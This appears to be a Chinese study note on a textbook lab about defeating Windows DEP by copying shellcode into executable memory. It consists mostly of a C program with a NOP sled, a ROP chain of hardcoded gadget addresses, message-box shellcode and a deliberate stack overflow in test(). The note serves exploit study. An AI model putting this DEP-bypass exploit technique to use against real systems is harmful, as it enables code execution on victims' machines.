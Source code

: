 
懒得调了。。。。。
之后思路大概是将\xFF\xFF\xFF\xFF换成memcpy的地址。

## from 12.4  利用可执行内存挑战 DEP

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//弹出对机器码在可执行空间的起始地址，转入执行用
"\x00\x00\x14\x00"//可执行内存空间地址，拷贝用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始shellcode起始地址
"\xFF\x00\x00\x00"//shellcode长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
void test()
{
	char tt[176];
	memcpy(tt,shellcode,450);
}
int main()
{
	HINSTANCE hInst = LoadLibrary("shell32.dll");
	char temp[200];
	test();
    return 0;
}
```